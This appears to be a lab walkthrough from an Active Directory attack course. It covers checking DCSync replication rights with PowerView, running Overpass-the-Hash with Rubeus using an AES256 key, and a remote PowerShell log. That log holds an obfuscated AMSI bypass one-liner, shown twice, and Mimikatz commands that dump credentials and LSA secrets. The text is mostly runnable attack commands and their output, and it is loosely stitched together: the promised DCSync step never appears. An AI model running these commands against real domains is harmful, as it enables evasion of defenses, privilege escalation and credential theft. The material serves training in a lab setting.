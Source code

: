 #### Tools

- `InviShell`
- `PowerView`
- `ArgSplit`
- `NetLoader`
- `Rubeus`
- `ADModule`
- `RACE`
- `SafetyKatz`

#### Solution

- Check if `studentuser51` has Replication (DCSync) rights

```
PS C:\AD\Tools> Import-Module C:\AD\Tools\PowerView.ps1

PS C:\AD\Tools> Get-DomainObjectAcl -SearchBase "dc=us,dc=techcorp,dc=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuser51"}
```

We got no output as `studentuser51` does not have the replication rights.

- If no, add the replication rights for the `studentuser51` and execute the DCSync attack to pull hashes of the `krbtgt` user

But, we can add those rights with Domain Administrator privileges.

Using Overpass-the-Hash, let's run a command prompt with DA privileges.

```
C:\Windows\System32> echo %Pwn%

asktgt

C:\Windows\System32> C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

[SNIP]

[*] Action: Ask TGT

[SNIP]

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/US.TECHCORP.LOCAL
  ServiceRealm             :  US.TECHCORP.LOCAL
  UserName                 :  Administrator
  UserRealm                :  US.TECHCORP.LOCAL
  StartTime                :  4/25/2025 9:55:25 AM
  EndTime                  :  4/25/2025 7:55:25 PM
  RenewTill                :  5/2/2025 9:55:25 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  /PtVNHxA8trTcXS6bLDS7gzKf1svjO2Pu7mcTK/MOak=
  ASREP (key)              :  DB7BD8E34FADA016EB0E292816040A1BF4EEB25CD3843E041D0278D30DC1B335
```


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'